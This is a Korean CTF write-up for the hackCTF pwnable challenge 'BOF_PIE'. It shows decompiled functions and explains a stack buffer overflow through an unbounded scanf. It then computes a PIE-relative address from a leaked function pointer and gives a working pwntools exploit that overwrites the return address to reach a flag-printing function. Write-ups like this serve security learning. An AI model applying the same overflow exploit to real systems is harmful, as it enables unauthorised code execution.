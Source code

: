 ```yaml
---
layout: post
title:  "[hackCTF]BOF_PIE"
date:   2020-02-18
---
```


hackCTF pwnable 9번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  welcome();
  puts("Nah...");
  return 0;
}
```

## ida - welcome
```c
int welcome()
{
  char v1; // [esp+6h] [ebp-12h]

  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  puts("Hello, Do you know j0n9hyun?");
  printf("j0n9hyun is %p\n", welcome);
  return _isoc99_scanf("%s", &v1);
}
```

## ida - j0n9hyun
```c
void j0n9hyun()
{
  char s; // [esp+4h] [ebp-34h]
  FILE * stream; // [esp+2Ch] [ebp-Ch]

  puts("ha-wi");
  stream = fopen("flag", "r");
  if ( stream )
  {
    fgets(&s, 40, stream);
    fclose(stream);
    puts(&s); // flag 출력
  }
  else
  {
    perror("flag");
  }
}
```
welcome함수 scanf에서 ret까지 덮어 j0n9hyun 함수를 실행시키면 될 것 같다.<br><br>
![0901](https://drive.google.com/uc?id=1ZwKH2ER8FIFKTDodoJn65xziNKzyQNkg)  
PIE가 걸려 있고 파일을 실행시키면 welcome 함수의 주소를 제공하므로 j0n9hyun 함수의 정확한 주소를 구할 수 있다.  
j0n9hyun 함수의 주소 = welcome 함수의 주소 + (j0n9hyun offset - welcome offset)
<br>

정리해보자.<br><br>
목표 : welcome 함수의 ret을 덮어 j0n9hyun 함수 실행시키기<br>
취약점 : _isoc99_scanf("%s", &v1)<br><br><br>


## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3008)

p.recvuntil("j0n9hyun is ")

welcome = int(p.recv(10), 16)

offset = 0x890-0x909

payload = "A"*0x16+p32(welcome+offset)

p.sendline(payload)

p.interactive()
```

## 결과
![0902](https://drive.google.com/uc?id=1P157mVwwxZkmBAeBM12fMtY27HRuqBN6)
